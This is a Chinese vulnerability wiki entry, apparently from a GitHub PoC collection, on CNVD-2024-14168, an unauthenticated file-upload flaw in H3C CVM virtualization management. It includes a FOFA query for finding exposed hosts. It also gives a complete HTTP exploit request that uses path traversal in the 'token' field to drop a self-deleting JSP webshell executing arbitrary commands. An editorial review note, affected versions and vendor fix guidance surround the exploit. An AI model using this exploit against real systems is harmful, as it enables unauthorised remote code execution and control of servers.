

# H3C CVM casfileUploadfd 文件上传致RCE漏洞(CNVD-2024-14168)

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：H3C CAS CVM虚拟化管理
- 本文讨论：CNVD-2024-14168
- 版本、权限与配置前提：fileUpload/fd token遍历上传；多个E分支范围/修复；声称未认证
- 资料类型：短PoC/官方修复摘录；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 在野已知无独立证据；影响E0535H03后5.0无上界，需按分支规范
- JSP载荷自删除、绝对Tomcat8目录为部署前提但未说明
- 实际虚拟化管理软件宜独立产品类；响应只图

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- fd/upload同源关系、版本平台和利用状态待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


# 漏洞描述

H3C CVM cas/fileUpload/fd 接口存在任意文件上传漏洞，未授权的攻击者可以上传任意文件，获取 webshell，控制服务器权限，读取敏感信息等。

# 影响版本

E0535H03之后的5.0版本

E0730P11H07之前版本

E0760P03H08之前版本

E0783之前的版本

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="H3C-CVM"

POC/EXP：

```
POST /cas/fileUpload/fd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.123 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=WebKitFormBoundaryMMqEBbEFHlzOcYq4
Connection: close

--WebKitFormBoundaryMMqEBbEFHlzOcYq4
Content-Disposition: form-data; name="token"

/../../../../../var/lib/tomcat8/webapps/cas/js/lib/buttons/rce.jsp
--WebKitFormBoundaryMMqEBbEFHlzOcYq4
Content-Disposition: form-data; name="file"; filename="rce.jsp"
Content-Type: image/png

<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b,0,a));}out.print("</pre>");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
--WebKitFormBoundaryMMqEBbEFHlzOcYq4--
```





# 修复方案

H3C通告链接：

https://www.h3c.com/cn/Service/Online_Help/psirt/security-notice/detail_2021.htm?Id=125

受影响的用户建议在线升级至以下安全版本：

E0730P11H07

E0760P03H08

E0783

E9003H01-UPLOAD版本

临时修复方案：

使用防护类设备对相关资产进行防护

如非必要，避免将资产暴露在互联网


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
